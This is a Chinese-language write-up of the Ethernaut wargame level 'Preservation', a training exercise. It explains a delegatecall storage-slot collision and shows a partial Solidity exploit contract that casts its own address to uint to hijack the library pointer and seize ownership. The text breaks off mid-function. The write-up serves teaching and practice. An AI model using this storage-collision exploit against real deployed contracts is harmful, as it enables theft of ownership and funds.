 

# 第十六关：Preservation

### 本关知识点：
```
1. delegatecall调用
2. 合约变量的存储
3. uint256和address的类型转换
```

## 1. 题目要求
` 尝试取得合约的所有权（`owner`）。`

## 2. 代码功能解读
```
Preservation
	1. 构造器初始化传入的两个地址，用两个地址变量接收，并将合约部署者设置为owner变量。
	2. setFirstTime这个方法传入一个uint变量，用timeZone1Library进行delegatecall调用setTime(uint256)方法，方法参数为传入的uint变量。
	3. setFirstTime这个方法传入一个uint变量，用timeZone2Library进行delegatecall调用setTime(uint256)方法，方法参数为传入的uint变量。
LibraryContract
	1. setTime方法将跟新storedTime状态变量。
```


## 3. 漏洞分析
```
通过delegatecall更改调用者合约的参数。
	1. uint的大小是256位，address的大小是160位，我们把address伪装为uint，然后传入setFirstTime方法，将timeZone1Library变量设置为自己的地址。
	2. 在攻击合约中将"setTime(uint256)"方法设置为修改第四个槽位的值为玩家的地址。
```

## 4. 攻击方法
``` java
contract Exploit {

  Preservation pres;

  address solt1;

  address solt2;

  // uint256 solt3;

  constructor(address addr) {

    pres = Preservation(addr);

  }

  

  function attack()public {

    uint256 time = uint256(uint160(address(this)));

    pres.setFirstTime(time);

    require(pres.timeZone1Library() == address(this), "error attack");
```